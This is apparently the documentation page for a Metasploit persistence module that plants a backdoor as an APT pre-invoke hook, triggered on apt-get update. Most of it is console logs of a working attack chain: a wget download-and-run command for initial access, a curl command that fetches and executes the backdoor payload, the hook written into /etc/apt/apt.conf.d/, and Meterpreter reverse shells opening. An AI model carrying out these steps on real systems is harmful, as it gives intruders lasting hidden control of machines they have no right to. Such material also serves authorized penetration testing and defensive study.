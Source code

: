 ## Vulnerable Application

This module will run a payload when the apt package manager is used.
This module creates a pre-invoke hook for APT in `apt.conf.d`.
The hook name syntax is numeric followed by text.

Verified on Ubuntu 22.04

## Verification Steps

1. Exploit a box that uses APT
2. Obtain root persmissions, or enough permissions to edit the `apt.conf.d` folder
3. `use exploit/linux/persistence/apt_package_manager`
4. `set SESSION <id>`
5. `set PAYLOAD cmd/unix/reverse_python` configure the payload as needed
6. `exploit`

When the system runs `apt-get update` the payload will launch.

## Options

### PAYLOAD_NAME

Name of backdoor executable. Defaults to a random name

### HOOKNAME

Name of pre-invoke hook to be installed in `/etc/apt/apt.conf.d/`. Pre-invoke hook name syntax is numeric followed by text.

## Scenarios

### Tested on Ubuntu 22.04

Initial access vector via web delivery

```
$ ./msfconsole -q
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO Z73D1DUW --no-check-certificate http://111.111.1.111:8181/l; chmod +x Z73D1DUW; ./Z73D1DUW& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] 222.222.2.22     web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.22:51076) at 2025-02-04 17:40:52 -0500
sessions -l
Active sessions
===============
  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         meterpreter x64/linux  root @ 222.222.2.22  111.111.1.111:4545 -> 222.222.2.22:51076 (222.222.2.22)
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/apt_package_manager 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/apt_package_manager) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/apt_package_manager) > check
[*] The target appears to be vulnerable. /etc/apt/apt.conf.d/ and /tmp/ are writable, also found apt-get.
[msf](Jobs:1 Agents:1) exploit(linux/persistence/apt_package_manager) > exploit
[*] Command to run on remote host: curl -so ./xTOLdQoOTv http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./xTOLdQoOTv;./xTOLdQoOTv&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/apt_package_manager) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /etc/apt/apt.conf.d/ and /tmp/ are writable, also found apt-get.
[*] Attempting to write hook:
[*] Wrote /etc/apt/apt.conf.d/76skoGqswo
[*] Backdoor uploaded /tmp/erNOJV96u
[+] Backdoor will run on next APT update
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc
[msf](Jobs:2 Agents:1) exploit(linux/persistence/apt_package_manager) > jobs
Jobs
====
  Id  Name                                            Payload                                     Payload opts
  --  ----                                            -------                                     ------------
  0   Exploit: multi/script/web_delivery              linux/x64/meterpreter/reverse_tcp           tcp://111.111.1.111:4545
  1   Exploit: linux/persistence/apt_package_manager  cmd/linux/http/x64/meterpreter/reverse_tcp  tcp://111.111.1.111:4444
[msf](Jobs:2 Agents:1) exploit(linux/persistence/apt_package_manager) > 
```

Run `sudo apt-get update` on the target.

```
[*] Client 222.222.2.22 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.22 (curl/7.81.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.22:49804) at 2025-02-04 17:43:06 -0500
[msf](Jobs:2 Agents:2) exploit(linux/persistence/apt_package_manager) > sessions -i 2
[*] Starting interaction with 2...
(Meterpreter 2)(/tmp) > sysinfo
Computer     : 222.222.2.22
OS           : Ubuntu 22.04 (Linux 5.15.0-48-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 2)(/tmp) > 
```

#### Cleanup

```
(Meterpreter 2)(/tmp) > resource /root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc
[*] Processing /root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc for ERB directives.
resource (/root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc)> rm /etc/apt/apt.conf.d/76skoGqswo
resource (/root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc)> rm /tmp/erNOJV96u
```